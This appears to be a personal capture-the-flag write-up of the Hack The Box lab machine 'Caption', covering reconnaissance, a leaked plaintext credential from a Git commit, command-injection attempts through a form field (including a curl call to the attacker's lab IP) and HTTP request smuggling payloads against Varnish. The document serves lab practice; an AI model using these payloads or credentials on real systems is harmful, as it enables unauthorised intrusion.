![[Pasted image 20241010111035.png]]
nmap
![[Pasted image 20241010111120.png]]
Browsing to `80` shows that we need credentials
![[Pasted image 20241010111430.png]]
Browsing to `8080` shows a gitbucket for a `WEB APP`, downloading zip to look at
![[Pasted image 20241010111346.png]]
unzip
![[Pasted image 20241010111550.png]]

Navigate to http://caption.htb:8080/root/Caption-Portal/commits/main in the web server to look at the commits from the `Administrator`

![[Pasted image 20241010112229.png]]
Browse the file and find margo credentials
`margo:vFr&cS2#0!`
![[Pasted image 20241010112321.png]]
Logged in as User `margo`
![[Pasted image 20241010112427.png]]
Clicked around the website in firefox, just used to show what the application looks like - not a functional website
![[Pasted image 20241010112637.png]]
Burpsuie and vscode next

Logs are restricted
![[Pasted image 20241010113435.png]]

![[Pasted image 20241010120825.png]]


```bash
POST /firewalls HTTP/1.1
Host: caption.htb
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.s0meFakeT0ken
Content-Length: 37

role=admin&cmd=ping+-c+4+10.10.14.102
```
Got me the `Varnish 6.6` version
![[Pasted image 20241010122300.png]]
What the render looks like
![[Pasted image 20241010122339.png]]
Doesn't work
```bash
POST /firewalls HTTP/1.1
Host: caption.htb
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.s0meFakeT0ken
Content-Length: 49

role=admin&cmd=curl+http://10.10.14.102:8000/test
```

the varnish version leads to this for H2 Request Smuggling
https://github.com/detectify/Varnish-H2-Request-Smuggling

```bash
POST / HTTP/1.1
Host: caption.htb
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /firewalls HTTP/1.1
Host: caption.htb

```

![[Pasted image 20241010123757.png]]

https://www.hackthebox.com/blog/business-ctf-2022-phishtale-writeup#http_2_request_smuggling_in_varnish__
![[Pasted image 20241010125111.png]]

```bash
POST /firewalls HTTP/1.1
Host: caption.htb
User-Agent: Normal-userAgent
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

aPOST /firewalls/ HTTP/1.1
Host: 127.0.0.1
User-agent: Smuggled-userAgent

```